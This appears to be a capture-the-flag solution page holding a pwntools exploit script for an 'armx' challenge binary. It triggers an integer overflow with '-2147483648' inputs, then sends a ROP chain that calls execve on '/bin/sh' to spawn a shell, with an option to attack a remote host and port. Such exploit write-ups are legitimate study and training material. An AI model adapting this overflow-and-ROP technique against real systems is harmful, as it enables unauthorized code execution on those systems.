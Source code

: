 Examples of a couple different exploits

- exploit path through ``armx``

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = """
break *0x401747
continue
"""


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(args.HOST,args.PORT)
    else:
        return process(e.path)


def setup_overflow():
    p.recvuntil(b">>>")
    p.sendline(b"ARMX")
    p.recvuntil(b">>>")
    p.sendline(b"-2147483648")
    p.recvuntil(b">>>")
    p.sendline(b"ARMX")
    p.recvuntil(b">>>")
    p.sendline(b"-2147483648")


def syscall_chain():
    chain = ""

    pop_rdx_rcx = r.find_gadget(["pop rax", "pop rdx", "pop rcx", "ret"])[0]
    pop_rdi_rsi = r.find_gadget(["pop rdi", "pop rsi", "syscall"])[0]
    sh = next(e.search(b"/bin/sh\0"))
    log.info(f"Pop rax, rdx, rcx, retgadget: {hex(pop_rdx_rcx)}")
    log.info(f"Pop rdi, rsi, syscall gadget: {hex(pop_rdi_rsi)}")
    log.info(f"sh: {hex(sh)}")

    chain = cyclic(280)
    chain += p64(pop_rdx_rcx)
    chain += p64(0x3B)  # rax = 0x3b
    chain += p64(0x0)  # rcx = 0
    chain += p64(0x0)  # rdx = 0
    chain += p64(pop_rdi_rsi)
    chain += p64(sh)  # rdi = sh
    chain += p64(0x0)
    p.recvuntil(b">>>")
    p.sendline(chain)


p = start()

setup_overflow()
syscall_chain()
```